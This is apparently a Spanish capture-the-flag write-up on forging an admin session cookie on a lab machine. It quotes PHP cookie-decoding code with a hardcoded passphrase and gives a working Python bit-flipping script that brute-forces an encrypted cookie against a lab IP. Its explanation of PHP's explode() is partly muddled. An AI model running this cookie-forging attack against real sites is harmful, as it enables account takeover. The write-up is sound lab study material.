 Esto tan extraño se produce por un error de php.
En /var/www/html/classes/user.php hay una funcion interesante:
```
public static function getuserfromcookie($auth) {
  $passphrase = 'pntstrlb';
  $data = decryptString($auth, $passphrase);
  list($a, $user) = explode("=", $data);
...
```
El error con la función explode esque al no tener un tercer parámetro que es delimitador quita siempre todos los "=" quedando en que si pones "admin====" al final 
es como si pusieras solo "admin" (por tanto la cookie es la de admin). Luego se produce algún tipo de bug con la base de datos sql que se duplica la entrada de admin.
```
└─$ php --interactive
php > $data = "user=admin";
php > list($a, $user) = explode("=", $data);
php > echo($a . " - " . $user);
user - admin

php > $data = "user=admin=";
php > list($a, $user) = explode("=", $data);
php > echo($a . " - " . $user);
user - admin # Lo mismo
```
Digamos que al entrar como "admin=" o "admin==" se queda en "admin" devolviendonos la cookie "user=admin"

-----------------------

# Extra: BitFlip

Tambien hice un script para hacer un bit flipper attack (basado en el de [0xdf](https://0xdf.gitlab.io/2020/07/29/htb-lazy.html))

Si nos registramos como bdmin sale la cookie "PkkvEZS4wDnUuWG1KxxQdUu3NFXTiDWI"
bdmin se parece mucho a admin asi que el algoritmo creará una cookie solo cambiando el byte correspondiente a 
la "b" por la "a" y dejando el resto igual (prueba con admin bdmin cdmin... hasta dar con el correcto)

```python
#!/usr/bin/python3
import base64
import requests

cookie_bin = base64.b64decode('PkkvEZS4wDnUuWG1KxxQdUu3NFXTiDWI') # La cookie de "bdmin"
for byte in range(len(cookie_bin)):			# Por cada byte de la cookie
    for block in range(8):					# Probamos a dividir en bloques hasta 8
		# Algoritmo de bit flipping ------------------------------
        mod_byte = cookie_bin[byte] ^ pow(2,block) # Por cada byte le hace un xor a 2 elevado al bloque
        mod_cookie_bin = cookie_bin[:byte] + bytes([mod_byte]) + cookie_bin[byte+1:] # Mas operatoria...
		# --------------------------------------------------------
        mod_cookie = base64.b64encode(mod_cookie_bin).decode() # esa cookie nueva la pone en base64
        resp = requests.get('http://10.10.10.18/index.php', cookies={'auth': mod_cookie}) # hace una peticion
        if 'admin' in resp.text:  # Si está admin se da por buena la respuesta
            print(f'Flip byte {byte}, xor by 0x{pow(2,block):02x} - Nueva Cookie: {mod_cookie}')
            exit()
```
```console
└─$ python3 bitflip.py
Flip byte 5, xor by 0x80 - Nueva cookie: PkkvEZQ4wDnUuWG1KxxQdUu3NFXTiDWI
```
